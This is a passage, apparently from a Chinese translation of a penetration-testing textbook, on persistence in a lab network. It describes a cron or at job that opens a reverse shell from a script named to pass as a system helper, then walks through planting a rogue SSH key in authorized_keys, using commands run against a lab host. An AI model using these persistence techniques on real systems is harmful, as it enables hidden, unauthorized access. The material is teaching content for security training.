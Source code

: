 构建脚本逻辑以执行您选择的恶意操作。例如，您可以使用 Cron 安排一个持久任务，或者使用 At 安排一个一次性任务，建立与远程机器的反向 shell 连接。

确保将您的脚本保存到 */usr/local/pam-helper.sh* 并赋予可执行权限。您可以在 *p-jumpbox-01* (172.16.10.13) 上测试此练习，因为您已经有其 root 访问权限。不要忘记设置反向 shell 监听器。

## 生成 Rogue SSH 密钥

有 SSH 访问权限的用户可以使用其加密密钥而不是密码登录服务器。当我们生成 SSH 密钥对时，必须将公钥追加到名为 *authorized_keys* 的文件中，该文件位于用户的主目录下。此文件中的任何公钥都被授权对系统进行身份验证，但仅当使用该账户时才有效。

因为可以授权多个密钥进行身份验证，所以使用恶意 SSH 密钥创建账户后门就像向此文件添加另一个公钥那么简单。例如，*nostarch* 用户的 *authorized_keys* 文件可能如下所示，假设他们的主目录是 */home/nostarch*：

```
$ **cat /home/nostarch/.ssh/authorized_keys**

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDB9Rp0Lol7dmnNxiMSlcWXWp5Ruf4XLwo2fgR7ZD
djMNHIJtbmTXz4WLM34XagYaDFpqsghbE+kYM9HatmK7KY9HDTqC96fX0TW8ky8UChdSvB7oiQjEei
CRuiqWqarPja6S8ko0LjdAe65n59kT2ClFCKP5XlGgkv/zMpLIfQxyrI4LFGun/Pi+Nef0DfNioBdZ
lUAmWeOjHyJ+xdpHMdhJSHGuzNx0KRnzZ83mvhgXZAGcr7Pz1NMGxXhjx2TeQzV7Yek+Z2QY6LMFpQ
e0c8AAvr/bI7+nj0wb27fhM66sOJp+VL+E4vg2t6TaGmrnq5JOG7lbIpXU/BU2KZaSx2E9bDzq5eOi
AQc8j+WE6Y1Y7r/0pbZ5DuQHoowCzS6r9nX9NU0kI4W9mLQ1vx3mgOUu4eEDF579UX4CIj7nju8ebg
wHhBaNdaYfmAz5TYgO4P92oqUNoyEm/eyndghpGWkn1U9yuzzCjiQqxpOV6V6Dw0DAyviHta5pYAjX
CtsYM= 
```

要生成新的 SSH 密钥，请在您的 Kali 机器上运行以下命令：

```
$ **ssh-keygen -t rsa -C ""**
```

我们使用 -t（类型）来定义密钥的类型（在本例中为 RSA），并使用 -C（注释）并附空值。如果不使用 -C 标志并提供空值，ssh-keygen 将在密钥的末尾附加计算机的主机名作为注释，这是标识该密钥所属机器的一种方式。按照向导操作，确保在此示例中不设置密码。应该会创建两个文件：*id_rsa*（私钥）和 *id_rsa.pub*（公钥）。

您可以以多种方式将公钥添加到 *authorized_keys*。尝试在已作为 backup 用户登录到 *p-jumpbox-01* 机器（172.16.10.13）上执行这些步骤。

首先，您可以简单地使用文本编辑器创建或修改 *~/.ssh/authorized_keys* 并粘贴公钥内容：

```
$ **mkdir ~/.ssh && chmod 700 ~/.ssh**
$ **touch ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys** 
```

要远程添加密钥，您可以使用 SSH 客户端进行身份验证并运行命令。请注意，这将需要您提供已经成功攻破的账户的密码。

```
$ **cat id_rsa.pub | ssh backup@172.16.10.13 'cat >> .ssh/authorized_keys'**
```

ssh-copy-id 命令使将公钥复制到服务器变得更加简单。它应该会自动将其写入正确的位置：

```
$ **ssh-copy-id -i ~/.ssh/id_rsa.pub backup@172.16.10.13**
```

在提示时，为 backup 用户输入密码。

添加密钥后，请尝试使用私有 RSA 密钥登录服务器：
